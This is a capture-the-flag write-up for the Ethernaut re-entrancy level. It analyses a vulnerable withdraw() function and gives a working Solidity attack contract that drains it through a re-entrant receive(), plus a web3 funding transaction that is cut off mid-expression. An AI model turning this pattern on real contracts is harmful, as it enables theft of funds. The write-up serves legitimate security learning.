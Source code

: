 # Level 10: [Re-entrancy](https://ethernaut.openzeppelin.com/level/0x573eAaf1C1c2521e671534FAA525fAAf0894eCEb)

## Level objectives:
1. Drain the contract.

## Analysis (lol)
- Classic re-entrancy vulnerability.
```sol
if(balances[msg.sender] >= _amount) {
  (bool result,) = msg.sender.call{value:_amount}("");
  ...
  balances[msg.sender] -= _amount;
```
- In withdraw(), the contract sends us some ether before changing our balance in the contract.
- So before the contract can change the balance[msg.sender], we call withdraw again.
- Do so using the fallback receive() function of our contract.

## Steps:

```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Reentrancy {
    function withdraw(uint _amount) external;
}

contract AttackReentrancy {
    Reentrancy victim = Reentrancy(0x671eA28bB06697f0de39616260Ed0fBE4b15602c);

    constructor() payable {}

    function attack() public {
        victim.withdraw(997790000300296);
    }

    receive() external payable {
        victim.withdraw(msg.value);
    }
}
```
- For the withdraw() to work, we need to send ether to the vuln contract using the donate function.
```js
web3.eth.sendTransaction({
  to: "0x671eA28bB06697f0de39616260Ed0fBE4b15602c",
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  value: "997790000300296",
  data: web3.eth.abi.encodeFunctionCall({
    name: "donate",
    type: "function",
    inputs: [{
      type: "address",
      name: "_to"
    }]
  }, ["0xBaC5b975FF516ac9d3a88a20A6820A3BeD430e28"])
```
